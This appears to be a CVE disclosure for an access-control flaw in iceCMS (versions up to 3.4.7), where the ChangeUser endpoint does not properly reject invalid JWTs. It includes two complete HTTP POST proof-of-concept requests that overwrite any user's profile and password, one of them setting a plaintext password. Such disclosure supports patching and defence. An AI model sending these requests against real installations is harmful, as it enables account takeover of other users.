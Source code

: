 
**[CVE-ID]**
CVE-2024-46610

**[PRODUCT]**
icecms

**[Vendor of Product]**
https://github.com/Thecosy/iceCMS?tab=readme-ov-file

**[VERSION]**
icecms <=3.4.7

**[Vulnerability Type]**
Incorrect Access Control

**[Description]**
Unauthorized modification of any user information, including passwords.

The vulnerability is in the ChangeUser function in UserController.java. The route of the function is @PostMapping("/ChangeUser/{jwt}"). This interface does not perform authentication processing. It only detects the jwt, and its jwt detection logic is problematic. As a result, attackers can directly request this interface to modify the information of any user, including passwords.

![pic1](/icecms/PIC/CVE-2024-46610-1.png)

The code logic is as follows:
There is a problem with the jwt detection logic in the code. If the jwt is invalid or illegal, an error should be reported directly or a return should be made directly instead of just setting a message.

![pic2](/icecms/PIC/CVE-2024-46610-2.png)


## POC：

Use Burpsuite to send the login data packet as follows. 
Through this interface, the information of any user can be directly modified.
```
POST /User/ChangeUser/s HTTP/1.1
Host: localhost:8181
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:9528
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Content-Type:application/json
Referer: http://localhost:9528/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 621

{"userId":65,"openid":null,"userage":null,"intro":"这个人很懒，什么都没有留下！","gender":"","name":"alan",
"role":"会员",
"username":"test","password":"$argon2i$v=19$m=65536,t=3,p=1$Bd4DS8mtP2ZM3DInyCT/sg$pQixU/obFvmj9wZXu658pZ4G5epINkfdET17xx8X3R8","email":"1231","role":"testa","profile":"https://img2.woyaogexing.com/2022/07/17/5bbaa5352282a8f7!400x400.jpg","status":null,"createTime":"2024-09-05 17:15:08","lastLogin":"2024-09-05T09:15:37.000+00:00","vipValidDate":null,"vipExpireDate":null,"integral":null,"vipDisableTip":true,"height":"","birthday":"","academic":"","monthly":"","permanent":""}

```
![pic3](/icecms/PIC/CVE-2024-46610-3.png)



 Directly modify users. And the password can be directly set as plaintext, and the plaintext will be stored in the database.
For example, sending a packet:
```
POST /User/ChangeUser/a HTTP/1.1
Host: localhost:8181
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:9528
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Content-Type:application/json
Referer: http://localhost:9528/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 533

{"userId":67,"openid":null,"userage":null,"intro":"这个人很懒，什么都没有留下！","gender":"","name":"test2",
"role":"会员",
"username":"test2","password":"123456","email":"1231","role":"testa","profile":"https://img2.woyaogexing.com/2022/07/17/5bbaa5352282a8f7!400x400.jpg","status":null,"createTime":"2024-09-05 17:15:08","lastLogin":"2024-09-05T09:15:37.000+00:00","vipValidDate":null,"vipExpireDate":null,"integral":null,"vipDisableTip":true,"height":"","birthday":"","academic":"","monthly":"","permanent":""}

```

![pic4](/icecms/PIC/CVE-2024-46610-4.png)

in the Database：

![pic5](/icecms/PIC/CVE-2024-46610-5.png)
